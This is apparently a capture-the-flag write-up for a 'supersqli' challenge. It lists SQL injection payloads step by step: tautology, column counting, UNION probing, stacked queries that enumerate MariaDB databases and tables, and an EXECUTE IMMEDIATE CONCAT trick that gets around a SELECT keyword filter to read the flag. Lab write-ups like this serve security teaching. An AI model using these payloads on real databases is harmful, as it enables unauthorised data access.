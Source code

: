 # supersqli

![Screenshot from 2021-07-24 23-58-40](https://user-images.githubusercontent.com/87865134/126875746-25f4935e-8d35-49c1-ab55-bc7822b36108.png)

- **SQLi**
- **Searh: `1' or 1=1 #` **
  - > all records

- **How many fields?**
  - `1' order by 3#` => error 1054
  -  `1' order by 2#` => have reccord
    - > 2 fields

- **Check type of fields**
  - `1' union select null, null #`  
  ![Screenshot from 2021-07-25 00-03-31](https://user-images.githubusercontent.com/87865134/126875875-2a0a5a8f-bfa7-4706-b295-410ed87515b8.png)
    - > can't use statement: select, update, delete, drop, insert, where, and .

- **Use other statements of ***MariaDB*** to show data:**   
  - `show databases, show tables, show columns`

- **show all databases:** 
  - `a'; show databases#`  
 ![Screenshot from 2021-07-25 00-07-28](https://user-images.githubusercontent.com/87865134/126875975-b1b3530f-1db1-460d-985d-e15487e75e9b.png)

- **show tables in current database:**
  - `a'; show tables#`  
  ![Screenshot from 2021-07-25 00-08-54](https://user-images.githubusercontent.com/87865134/126876016-64ba9e33-ff40-4563-bd99-349fb5b2929e.png)

- **Show columns of table ***1919810931114514***:**
  - ```a'; show columns from `1919810931114514` from supersqli#```  
  ![Screenshot from 2021-07-25 00-10-46](https://user-images.githubusercontent.com/87865134/126876065-8d593ed4-286b-4c36-8eb9-5f0b075408f6.png)

- **Use dynamic SQL to get content of this table:**
  - ```a' ;EXECUTE IMMEDIATE CONCAT('SELE', 'CT flag FROM `1919810931114514`')#```  
  ![Screenshot from 2021-07-25 00-12-16](https://user-images.githubusercontent.com/87865134/126876109-48487e24-2c84-41c0-8f6d-d128c80146d9.png)

- **Description:**
  - > category: SQL injection

- **Reference:**
  - [MariaDB SHOW Statement](https://mariadb.com/kb/en/show/)
  - [EXECUTE IMMEDIATE](https://mariadb.com/kb/en/execute-immediate/)


